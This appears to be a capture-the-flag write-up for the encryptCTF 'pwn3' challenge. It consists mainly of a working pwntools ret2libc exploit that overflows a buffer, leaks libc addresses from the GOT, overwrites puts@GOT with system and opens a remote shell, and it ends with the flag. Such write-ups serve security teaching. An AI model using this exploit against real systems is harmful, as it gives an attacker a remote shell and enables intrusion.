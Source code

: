 # **pwn3**

#### tag : pwn

-----------------------------------------------

#### Description

>libc is such a nice place to hangout, isn't it?
>
>nc 104.154.106.182 4567
>
>author: codacker

-----------------------------------------------

#### Solution

```python
from pwn import *

context.log_level = 'debug'
r = remote('104.154.106.182', 4567)

gets_plt = 0x08048330
gets_got = 0x80497ac
puts_plt = 0x08048340
puts_got = 0x80497b0
pr = 0x08048319
main = 0x0804847d

# stage 1: leak server side libc address to use libc-database
'''
p = 'a' * 0x8c
p += p32(puts_plt)
p += p32(pr)
p += p32(puts_got)
p += p32(puts_plt)
p += p32(pr)
p += p32(gets_got)

r.recvuntil(': ')
r.sendline(p)
r.recvuntil('\n')

leak1 = u32((r.recvuntil('\n'))[:4])
leak2 = u32((r.recvuntil('\n'))[:4])

#print 'puts :', hex(leak1)
#print 'gets :', hex(leak2)

$ ./find puts 7e0 gets e60
ubuntu-trusty-i386-libc6 (id libc6_2.19-0ubuntu6.14_i386)
epist@epist:~/Workspace/Pwnable/libc-database$ ./download libc6_2.19-0ubuntu6.14_i386
Getting libc6_2.19-0ubuntu6.14_i386
  -> Location: http://security.ubuntu.com/ubuntu/pool/main/e/eglibc/libc6_2.19-0ubuntu6.14_i386.deb
  -> Downloading package
  -> Extracting package
  -> Package saved to libs/libc6_2.19-0ubuntu6.14_i386
'''
# these offset in libc-2.19.so
libc_system_offset = 0x40310
libc_puts_offset = 0x657e0
libc_binsh_offset = 0x162d4c

# stage 2: leak libc_base from puts's got and call main again
p2 = 'a' * 0x8c
p2 += p32(puts_plt)
p2 += p32(pr)
p2 += p32(puts_got)
p2 += p32(main)

r.recvuntil(': ')
r.sendline(p2)
r.recvuntil('\n')

leak = u32((r.recvuntil('\n'))[:4])
libc_base = leak - libc_puts_offset
system = libc_base + libc_system_offset
binsh = libc_base + libc_binsh_offset

# stage 3: overwrite puts_got to system and call with "/bin/sh"
p3 = 'a' * 0x8c
p3 += p32(gets_plt)
p3 += p32(pr)
p3 += p32(puts_got)
p3 += p32(puts_plt)
p3 += 'a' * 4
p3 += p32(binsh)

r.recvuntil(': ')
r.sendline(p3)
r.sendline(p32(system))
r.interactive()
```
**encryptCTF{70_7h3_C3nt3R_0f_L!bC}**
